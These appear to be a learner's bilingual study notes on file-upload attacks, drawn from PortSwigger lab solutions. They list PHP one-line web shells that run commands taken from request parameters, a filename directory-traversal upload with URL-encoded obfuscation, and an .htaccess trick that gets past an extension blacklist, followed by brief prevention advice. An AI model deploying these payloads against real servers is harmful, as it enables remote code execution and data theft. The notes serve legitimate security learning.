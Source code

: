 # oneline
Код засунуть в <??>
`php echo passthru($_GET['cmd']);`
`php echo exec($_POST['cmd']);`
`php system($_GET['cmd']);`
`php passthru($_REQUEST['cmd']);`


`php echo file_get_contents('/path/to/target/file');`
`php echo system($_GET['command']);`
## dir travel.
filename="../exploit.php"
Если на такой POST приходит окей, то тогда можно менять расположения файла,  используя url encoding / обходим фильтрацию и тогдай файл сохраняется на директорию выше, где уже могут быть права на изменения файла. В случае успеха перемещаться тоже через url encode.

Вставка из решения таска Burp Suita:
>  n Burp Repeater, go to the tab containing the `POST /my-account/avatar` request and find the part of the request body that relates to your PHP file. In the `Content-Disposition` header, change the `filename` to include a [directory traversal](https://portswigger.net/web-security/file-path-traversal) sequence:  
    `Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
Send the request. Notice that the response says `The file avatars/exploit.php has been uploaded.` This suggests that the server is stripping the directory traversal sequence from the file name.
   Obfuscate the directory traversal sequence by URL encoding the forward slash (`/`) character, resulting in:  
    `filename="..%2fexploit.php"`
   Send the request and observe that the message now says `The file avatars/../exploit.php has been uploaded.` This indicates that the file name is being URL decoded by the server.
  In the browser, go back to your account page.
   In Burp's proxy history, find the `GET /files/avatars/..%2fexploit.php` request. Observe that Carlos's secret was returned in the response. This indicates that the file was uploaded to a higher directory in the filesystem hierarchy (`/files`), and subsequently executed by the server. Note that this means you can also request this file using `GET /files/exploit.php`. >

## Обход blacklist.
На apache можно добавить правило выполнения произвольного расширения, как php файла, тогда он пройдет проверку blacklista.
>-   In Burp's proxy history, find the `POST /my-account/avatar` request that was used to submit the file upload. In the response, notice that the headers reveal that you're talking to an Apache server. Send this request to Burp Repeater.
-In Burp Repeater, go to the tab for the `POST /my-account/avatar` request and find the part of the body that relates to your PHP file. Make the following changes:
    -   Change the value of the `filename` parameter to `.htaccess`.
    -   Change the value of the `Content-Type` header to `text/plain`.
    -   Replace the contents of the file (your PHP payload) with the following Apache directive:  
        `AddType application/x-httpd-php .l33t`  
        This maps an arbitrary extension (`.l33t`) to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already.
   Send the request and observe that the file was successfully uploaded.
   Use the back arrow in Burp Repeater to return to the original request for uploading your PHP exploit.
   Change the value of the `filename` parameter from `exploit.php` to `exploit.l33t`. Send the request again and notice that the file was uploaded successfully.
   Switch to the other Repeater tab containing the `GET /files/avatars/<YOUR-IMAGE>` request. In the path, replace the name of your image file with `exploit.l33t` and send the request. Observe that Carlos's secret was returned in the response. Thanks to our malicious `.htaccess` file, the `.l33t` file was executed as if it were a `.php` file.

   # Обход через замену
   # Prevent
   Allowing users to upload files is commonplace and doesn't have to be dangerous as long as you take the right precautions. In general, the most effective way to protect your own websites from these vulnerabilities is to implement all of the following practices:

-   Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload.
-   Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).
-   Rename uploaded files to avoid collisions that may cause existing files to be overwritten.
-   Do not upload files to the server's permanent filesystem until they have been fully validated.
-   As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.